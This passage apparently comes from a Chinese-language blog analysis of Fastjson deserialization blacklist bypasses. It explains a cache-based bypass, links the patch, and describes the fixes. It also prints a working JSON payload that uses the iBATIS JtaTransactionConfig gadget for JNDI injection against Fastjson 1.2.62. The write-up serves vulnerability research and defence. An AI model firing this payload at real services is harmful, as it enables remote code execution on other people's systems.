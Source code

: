![Fastjson%20Bypass/Untitled%2015.png](https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/FastjsonBypass/15.png)

### 1.2.32，关闭`**setAutoTypeSupport**`分析

在此版本，关闭`autoTypeSupport`的情况下，由于没有直接进入黑名单检测，在之后白名单检测之前，进入到`TypeUtils.getClassFromMapping`成功获取到目标类并返回，之后正常反序列化导致命令执行

![Fastjson%20Bypass/Untitled%2016.png](https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/FastjsonBypass/16.png)

## 补丁

- [补丁commit](https://github.com/alibaba/fastjson/commit/11b92d9f33119ca2af1a3fe6f474de5c1810e686)
- [1.2.48](https://github.com/alibaba/fastjson/tree/1.2.48)

这个绕过不像之前一样只是单纯的对黑名单的绕过，更多的是结合了Fastjson特性机制，利用其缓存的特点，绕过了黑白名单的检测。对于这种类型的漏洞挖掘，更多的是需要对挖掘目标的了解，在充分了解其特性后，再去构造Payload。

## 修复思路

- 跟上一个绕过修复思路一样，还是在denyHashCodes中增加了本次绕过类`java.lang.Class` 的hashCode
- 把默认的**缓存true改为false**

---

# 版本1.2.62

## 绕过原理

- 原理：使用新的Gadget绕过黑名单
- 利用条件
  - **需要 Fastjson版本 ≤ 1.2.62，并且需要开启`setAutoTypeSupport`**

### org.apache.ibatis.ibatis-sqlmap-2.3.4.726.jar

关键PoC：**com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig**

```java
"{\"@type\":\"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig\",\"properties\": {\"@type\":\"java.util.Properties\",\"UserTransaction\":\"rmi://localhost:1099/Exploit\"}}";
```

## 详情分析

- `utxName`可控，造成JNDI注入

![Fastjson%20Bypass/Untitled%2017.png](https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/FastjsonBypass/17.png)

## 修复思路

增加黑名单

---